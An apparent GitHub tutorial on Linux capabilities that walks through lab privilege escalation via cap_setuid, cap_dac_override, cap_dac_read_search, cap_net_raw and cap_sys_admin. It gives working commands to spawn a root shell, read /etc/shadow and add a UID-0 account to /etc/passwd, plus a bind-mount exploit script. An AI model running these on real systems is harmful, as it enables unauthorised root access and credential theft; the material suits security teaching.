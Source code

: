 Definition of Linux Capabilities



Linux Capabilities are a security feature that provides fine-grained control over privileged operations traditionally restricted to the root user. Instead of granting full root access, capabilities allow specific privileges to be assigned to processes or binaries. This enhances security by minimizing the risk of privilege escalation and reducing the attack surface.

For example, a binary can be assigned the ability to bind to low-numbered ports or bypass file permissions without having unrestricted root access.

Capabilities are divided into multiple categories, such as:

CAP_NET_BIND_SERVICE – Allows binding to ports below 1024.
CAP_SYS_ADMIN – Grants extensive system control (almost equivalent to root).
CAP_DAC_OVERRIDE – Allows bypassing file permission restrictions.
Capabilities can be managed using commands like getcap, setcap, and capsh.



1. Checking Capabilities of a Binary
   
Use the getcap command to check if a binary has capabilities set:

      getcap /usr/bin/ping 

2. Finding All Binaries with Capabilities

To list all files with special capabilities:
      
      getcap -r / 2>/dev/null

3. Common Capabilities That Can Lead to Privilege Escalation

![image](https://github.com/user-attachments/assets/78902b40-e40e-45a3-a642-59809e39a4a7)

4. Exploiting Capabilities for Privilege Escalation

4.1 cap_setuid (Set User ID)

This capability allows a binary to change its user ID, potentially leading to privilege escalation.

Granting cap_setuid to Python 3.9

      setcap cap_setuid+ep /usr/bin/python3.9

Finding All Binaries with Capabilities

    getcap -r / 2>/dev/null
    
Confirming the Capability

    getcap /usr/bin/python3.9

Exploiting Python 3.9 for Privilege Escalation

    /usr/bin/python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    
Removing the Capability

    setcap -r /usr/bin/python3.9

4.2 cap_dac_override (Bypass File Permissions)

A binary with cap_dac_override+ep can read sensitive files such as /etc/shadow.

Checking Access to /etc/shadow

    ls -lh /etc/shadow
    
    cat /etc/shadow
    
Setting cap_dac_override for Python 3.9

    setcap cap_dac_override+ep /usr/bin/python3.9
    
Confirming the Capability

    getcap /usr/bin/python3.9
Exploiting Python 3.9 to Read /etc/shadow

    /usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
    
    python3 -c 'print(open("/etc/shadow").read())'
    
Appending a New Root User to /etc/passwd

      /usr/bin/python3.9 -c 'open("/etc/passwd", "a").write("root2:$1$jJQZ0icg5UMXbDzX.tkUwZ8pyY9sQy.:0:0:root:/root:/bin/bash\n")'
      
Removing the Capability

    setcap -r /usr/bin/python3.9

4.3 cap_dac_read_search+ep (Bypass File Read and Directory Search Permissions)

A binary with cap_dac_read_search+ep can read restricted files like /etc/shadow.

Checking Access to /etc/shadow

    ls -lh /etc/shadow

    
    cat /etc/shadow
    
Setting cap_dac_read_search for Python 3.9

    setcap cap_dac_read_search+ep /usr/bin/python3.9
    
Confirming the Capability

    getcap /usr/bin/python3.9

    
Exploiting Python 3.9 to Read /etc/shadow

    /usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
    
Removing the Capability

    setcap -r /usr/bin/python3.9


4.4 cap_net_raw+ep (Can Sniff Network Traffic)

A binary with cap_net_raw+ep can capture packets.

Checking tcpdump Permissions

    ls -lh /usr/sbin/tcpdump
    
Setting cap_net_raw for tcpdump

    setcap cap_net_raw+ep /usr/sbin/tcpdump
    
Confirming the Capability

    getcap /usr/sbin/tcpdump
    
Exploiting tcpdump

    /usr/sbin/tcpdump
    
Removing the Capability

    setcap -r /usr/sbin/tcpdump

4.5 cap_sys_admin+ep (Full System Control, Essentially Root Access)

A binary with cap_sys_admin+ep can control system-wide settings.

Checking Access to /etc/passwd

    ls -lh /etc/passwd
    
Setting cap_sys_admin for Python 3.11

    setcap cap_sys_admin+ep /usr/bin/python3.11

Confirming the Capability

    getcap /usr/bin/python3.11

Exploiting Python 3.11 to Modify /etc/passwd

    cp /etc/passwd /tmp/passwd
    vim /tmp/passwd

Exploiting Python with a Custom Script

Create an exploit.py script:


    from ctypes import *
    
    libc = CDLL("libc.so.6")
    libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
    
    MS_BIND = 4096  # Defined in /usr/include/sys/mount.h:55
    source = b"/tmp/passwd"
    target = b"/etc/passwd"
    filesystemtype = b"none"
    options = b"rw"
    mountflags = MS_BIND
    
    libc.mount(source, target, filesystemtype, mountflags, options)


Running the Exploit

    /usr/bin/python3.11 exploit.py


Removing the Capability


    setcap -r /usr/bin/python3.11


    

